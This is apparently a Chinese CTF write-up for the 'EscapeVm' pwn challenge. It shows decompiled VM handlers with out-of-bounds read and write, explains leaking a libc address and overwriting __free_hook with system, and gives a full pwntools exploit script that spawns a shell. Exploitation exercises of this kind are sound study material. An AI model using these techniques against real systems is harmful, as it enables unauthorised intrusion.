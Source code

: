 # EscapeVm

不得不说这题很有意思，国赛的时候一堆的堆题，这题让人焕然一新，给出题人点赞。原先也解过类似的题目，但是我知道自己的逆向能力不太好，要是解的话肯定要花非常非常久，于是当时就没去看这题了。不得不说pizza真的tql

题目环境是Ubuntu16.04,libc是2.23的

题目的

```c
	case 6:                                 // oob read
          v12 = (v22 >> 9) & 7;
          v13 = &reg->r0 + v12;
          *v13 = read_mem(
                   (*((unsigned __int16 *)&reg->r0 + ((v22 >> 6) & 7)) << 16)
                 + *((unsigned __int16 *)&reg->r0 + ((v22 >> 3) & 7)));
          update_eflag(v12);
          break;
        case 7:                                 // oob write
          sign_extend(v22 & 0x3F, 6);
          mem_write(
            (*((unsigned __int16 *)&reg->r0 + ((v22 >> 6) & 7)) << 16)
          + *((unsigned __int16 *)&reg->r0 + ((v22 >> 3) & 7)),
            *(&reg->r0 + ((v22 >> 9) & 7)));
          break;
```

存在越界读和写，然后因为申请的memory是在libc的上方，且和libc的偏移不变，所以可以通过越界读泄露libc地址，然后在越界写__free_hook为system的地址，然后退出的时候就能getshell，需要注意的是这个vm是大端的，所以要转一下字节序

```python
from pwn import *


def main(host,port=9017):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./escapevm")
		# p = process("./",env={"LD_PRELOAD":"./libc.so.6"})
		# gdb.attach(p,"b *0x56555000+0x001322")
	p.recvuntil("Input: ")
	p.send("\x00\x00")
	#leak stdout
	#r1 = 0xe
	payload = "b/nis/\x00h"+"\x00"*(0x6000-8)
	payload += "\x22\x80"
	#r2 = 0xa6fa
	payload += "\x24\x80"
	#r3 = stdout & 0xffff
	payload += "\x66\x50"
	#r4 = (stdout & 0xffff0000)>>16
	payload += "\x24\x7f"
	payload += "\x68\x50"
	#r2 = 0xa754
	payload += "\x24\x7e"
	#r5 = 0x17
	payload += "\x2a\x7e"
	#r6 = 0x8040
	payload += "\x2c\x7e"
	#r4 += r5
	payload += "\x19\x05"
	#r3 += r6
	payload += "\x16\xc6"

	#write free_hook
	payload += "\x76\x50"
	#r2 = 0xa755
	payload += "\x24\x7b"
	payload += "\x78\x50"
	payload += "\xf0\x26"
	payload = payload.ljust(0x6100,"\x00")
	payload += p16(0x0)+"\x00\x0e"+"\xa6\xfa"+"\xa6\xfb"
	payload += "\xac\x54"+"\xff\xe8"+"\x80\x40"+"\xac\x55"
	p.send(payload)
	
	p.interactive()
	
if __name__ == "__main__":
	
	main(args['REMOTE'])
```

参考链接： 
[https://xz.aliyun.com/t/5842](https://xz.aliyun.com/t/5842)

[https://justinmeiners.github.io/lc3-vm/](https://justinmeiners.github.io/lc3-vm/)
